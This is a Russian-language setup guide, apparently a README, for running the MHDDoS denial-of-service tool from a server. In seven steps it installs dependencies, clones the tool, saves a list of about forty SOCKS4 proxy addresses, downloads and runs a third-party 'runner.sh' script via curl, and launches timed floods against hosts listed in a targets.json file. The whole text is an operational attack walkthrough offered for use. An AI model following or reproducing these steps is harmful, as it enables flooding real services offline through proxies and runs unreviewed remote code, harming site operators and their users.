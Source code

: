 1. Установите инструментарий
```
sudo apt-get update
sudo apt-get install -y jq python3-pip python-pyasn1
pip install pyasn1==0.4.6
```

2. Установите на сервере MHDDoS
```
git clone https://github.com/MHProDev/MHDDoS.git
cd MHDDoS
pip install -r requirements.txt
```

3. Сохраните прокси лист

```
echo 'socks4://115.239.21.111:23456
socks4://119.3.231.232:8001
socks4://123.56.29.180:10808
socks4://178.237.38.22:13292
socks4://192.252.215.5:16137
socks4://93.190.141.62:9050
socks4://192.252.215.5:16137
socks4://72.195.34.35:27360
socks4://162.14.135.190:10800
socks4://80.75.3.74:1080
socks4://114.88.230.134:1080
socks4://98.162.96.53:10663
socks4://119.3.231.232:8001
socks4://72.195.34.60:27391
socks4://119.3.231.232:8001
socks4://198.8.94.170:4145
socks4://142.93.143.155:9010
socks4://192.252.211.197:14921
socks4://192.111.135.17:18302
socks4://72.195.34.35:27360
socks4://175.24.235.242:7891
socks4://98.162.25.23:4145
socks4://98.162.25.4:31654
socks4://174.77.111.198:49547
socks4://192.111.137.35:4145
socks4://192.111.137.35:4145
socks4://98.162.25.7:31653
socks4://78.47.230.141:17027
socks4://128.199.245.23:24527
socks4://222.212.85.16:7000
socks4://51.222.13.193:10084
socks4://121.205.228.46:8003
socks4://1.14.104.55:15229
socks4://192.111.135.21:4145
socks4://192.111.135.21:4145
socks4://72.195.34.60:27391
socks4://101.35.115.136:20012
socks4://142.93.143.155:9010
socks4://98.162.25.4:31654
socks4://175.24.235.242:7891
socks4://192.111.137.34:18765' > files/proxies/0
 ```

4. установите раннер
```
curl https://raw.githubusercontent.com/rxitech/k6clean/master/runner.sh > runner.sh
```

5. сделайте раннер запускаемым

```
chmod +x ./runner.sh
```

6. Создайте targets.json файл с целями в следующем формате (без запятой после последнего значения!)
```
{
 "127.0.0.1": "localhost",
 "172.217.19.78": "google.com"
}
```

7. Запустите раннер передав файл с целями и продолжительность выполнения в секундах
```
./runner.sh targets.json 300
```
